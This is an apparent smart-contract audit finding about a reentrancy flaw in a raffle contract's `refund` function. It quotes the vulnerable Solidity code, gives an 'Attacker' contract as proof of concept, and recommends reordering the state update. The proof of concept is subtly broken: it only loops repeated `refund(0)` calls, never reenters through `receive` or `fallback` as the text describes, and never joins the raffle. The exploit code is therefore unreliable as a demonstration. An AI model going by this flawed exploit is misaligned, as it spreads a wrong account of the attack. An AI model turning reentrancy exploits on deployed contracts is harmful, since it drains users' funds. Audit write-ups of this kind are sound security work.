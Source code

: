 ### [H-1] Reentrancy Attack in `PuppyRaffle::refund` allows entrants to drain contract balance


**Description:** The `PuppyRaffle::refund` does not follow CEI (Check Effects and Intreaction)
and thus is a vulnerable function causing a reentrancy attack

In `PuppyRaffle::refund` at first we make an external call to `msg.sender`and only after
that we are updating the `players` array

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
@>        payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);  
        emit RaffleRefunded(playerAddress);
    }


```

**Impact:** The malicious user can call the refund using an external contract by using the `fallback`
or `receive` function to drain all the money from the contract. 

**Proof of Concept:**

Here is the Proof of Code 
```javascript
// Attacker contract

contract Attacker {
    PuppyRaffle raffle;

    constructor(address _raffleAddress) {
        raffle = PuppyRaffle(_raffleAddress);
    }

    function attack() external payable {
        // Ensure the contract has enough balance to trigger multiple refunds
        require(address(this).balance >= raffle.entranceFee(), "Insufficient balance");
        // Trigger multiple refunds in a loop
        for (uint i = 0; i < 10; i++) {
            raffle.refund(0); // Assuming attacker's address is at index 0
        }
    }
}


```

**Recommended Mitigation:** To mitigate this vulnerability, follow the CEI pattern by updating state variables before making external calls. In this case, move the update of the players array before the external call to msg.sender. 
